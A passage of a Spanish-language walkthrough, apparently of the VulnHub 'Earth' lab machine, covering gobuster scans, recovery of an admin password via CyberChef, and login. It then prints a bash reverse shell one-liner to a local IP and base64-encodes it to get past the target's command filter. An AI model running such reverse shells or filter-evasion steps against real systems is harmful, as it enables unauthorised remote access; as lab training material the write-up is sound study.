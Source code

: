 Realizar un escaneo con gobuster a ambas DNS como https
```bash
sudo gobuster dir -u https://earth.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/8.png){: .align-center}

```bash
sudo gobuster dir -u https://terratest.earth.local -w /usr/share/wordlists/dirb/common.txt -k
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/9.png){: .align-center}

Reportará que hay un `robots.txt`, acceder a él. Mostrará una lista de directorios.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/10.png){: .align-center}

Ir a `/testingnotes.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/11.png){: .align-center}

Ir a `testdata.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/12.png){: .align-center}

Usar cyberchef para desencriptar los mensajes de earth.local usando como clave el texto de `testdata.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/13.png){: .align-center}

Mostrará un menaje repetido bastantes veces que es earthclimatechangebad4humans
Usar ese resultado como contraseña en `earth.local/admin/login`

```bash
Usuario: terra
Contraseña: earthclimatechangebad4humans
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/14.png){: .align-center}

Al intentar hacer un reverse shell mostrará que no están permitidas las conexiones, esto es porque detecta que se está introduciendo un comando de reverse shell
```bash
/bin/bash -i >& /dev/tcp/192.168.122.13/4444 0>&1
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/15.png){: .align-center}

Encriptar el comando con base64
```bash
echo "/bin/bash -i >& /dev/tcp/192.168.122.13/4444 0>&1" | base64
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/16.png){: .align-center}
